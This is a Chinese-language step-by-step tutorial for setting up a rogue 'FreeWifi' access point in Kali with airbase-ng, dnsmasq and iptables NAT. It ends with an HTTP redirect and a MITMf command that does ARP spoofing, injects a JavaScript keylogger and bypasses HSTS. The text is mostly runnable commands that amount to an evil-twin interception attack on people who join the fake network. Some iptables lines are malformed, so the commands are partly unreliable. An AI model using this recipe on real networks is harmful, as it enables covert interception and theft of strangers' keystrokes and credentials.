 # 在kali中创建伪装AP热点

## 1.必须工具
- Aircrack-ng
- Dnsmasq
- Wireless Adapter

**Aircrack-ng**：Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上并嗅探802.11a，802.11b，802.11g的数据。

**Dnsmasq**：DNSmasq是一个小巧且方便地用于配置DNS和DHCP的工具，适用于小型网络，它提供了DNS功能和可选择的DHCP功能。

**Wireless Adapter**：无线网卡，伪装AP热点无线一个无线网卡，建议使用外置的无线网卡。

## 2.查看无线网卡并启动监听
使用`airmon-ng`命令查看当前可用的无线网卡信息，如wlan0
使用`airmon-ng start [网卡名称]`启动无线网卡为监听模式，得到wlan0mon

## 3.创建无线AP热点
使用命令`airbase-ng -e [AP_NAME] -c [channel] wlan0mon`创建无线AP热点，如：
```shell
airbase-ng -e FreeWifi -c 6 wlan0mon
```
此时可以扫描到创建的无线热点，但是不能连接去。

## 4.创建虚拟网卡及网关
新打开一个终端，执行以下命令创建虚拟网卡及其路由配置
```shell
ifconfig at0 10.0.0.1/24 up
ifconfig at0 mtu 1400
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

## 5.编辑Dnsmasq配置并启动
编辑 **dnsmasq** 配置文件`vi /etc/dnsmasq.conf`
```shell
interface=at0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-dhcp
log-queries
```
启动 **dnsmasq** 服务
```
dnsmasq -C /etc/dnsmasq.conf -d
```

## 6.开启IP转发并设置IPTables转发规则
```shell
iptables -flush
echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -P FORWARD ACCEPT
iptables -append FORWARD -in-interface at0 ACCEPT

-- iptables -table -nat -append POSTROUTING -out-interface eth0 -j MASQUERADE
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## 后续可以做什么？
```
iptables -t nat -A PREROUTING -p tcp -destination 80 -j REDIRECT -to-port 10000

# MITMF
mitmf -i at0 --spoof --arp -gateway 10.0.0.1 --jskeylogger --hsts
```
